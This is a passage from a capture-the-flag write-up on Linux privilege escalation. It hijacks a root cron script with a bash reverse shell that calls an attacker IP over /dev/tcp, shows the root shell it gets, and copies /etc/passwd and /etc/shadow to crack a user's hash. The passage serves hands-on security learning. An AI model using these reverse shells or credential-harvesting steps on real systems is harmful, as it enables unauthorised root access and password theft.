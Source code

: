 We might be able to do something with that...  
First we must setup our handy netcat listener on our attacking machine `nc -lvp 6666`.

Lets create our own backup.sh and save this one:

```
$ mv backup.sh backup.sh.bkup
$ touch backup.sh
$ vim backup.sh
# Insert this line with your IP in the script:
bash -i >& /dev/tcp/1.2.3.4/6666 0>&1
```

Next time the cron job executes the backup.sh, it will be executed as root and connect to our netcat listener giving us a root shell:

```
$ nc -lvp 6666
listening on [any] 6666 ...
10.10.23.186: inverse host lookup failed: Unknown host
connect to [1.2.3.4] from (UNKNOWN) [10.10.23.186] 49878
bash: cannot set terminal process group (13249): Inappropriate ioctl for device
bash: no job control in this shell
root@ip-10-10-23-186:~# 
```

Nice, we got ourselves a `root` shell! We can find the flag @ `/home/ubuntu/flag5.txt`.

Another avenue we could take is use the `/tmp/test.py` script.

```
aren@ip-10-10-23-186:~$ ls -lh /tmp/
total 16K
drwx------ 3 root root 4.0K Nov  8 14:21 snap.lxd
drwx------ 3 root root 4.0K Nov  8 14:21 systemd-private-7602d9f312b541e09ce990034a6cfbd6-systemd-logind.service-HdbVYg
drwx------ 3 root root 4.0K Nov  8 14:21 systemd-private-7602d9f312b541e09ce990034a6cfbd6-systemd-resolved.service-4imyug
drwx------ 3 root root 4.0K Nov  8 14:21 systemd-private-7602d9f312b541e09ce990034a6cfbd6-systemd-timesyncd.service-z0lATg
```

It does not exist, thus we could use this in the same way! Remember that a file is just that, a file, and just because it has a python extension `.py` doesn't mean that it has to have python code :) I am pretty confident you could just add the same reverse shell (`bash -i >& /dev/tcp/127.0.0.1/6666 0>&1`) to this script and it would have the same outcome!

As an additional task we are requested the password for the _matt_ user. For this, we can gather the `/etc/passwd` file and now that we have root privileges, we can also collect the `/etc/shadow` file which we need to attempt to crack the hash. Since our target is only the `matt` user we can just copy that line for that user out of the '/etc/passwd`and`/etc/shadow\` files and use the unshadow tool:

```
$ unshadow passwd.txt shadow.txt > crackmatt.txt
```

Now we can attempt to crack the hash with the good ol rockyou.txt word list:
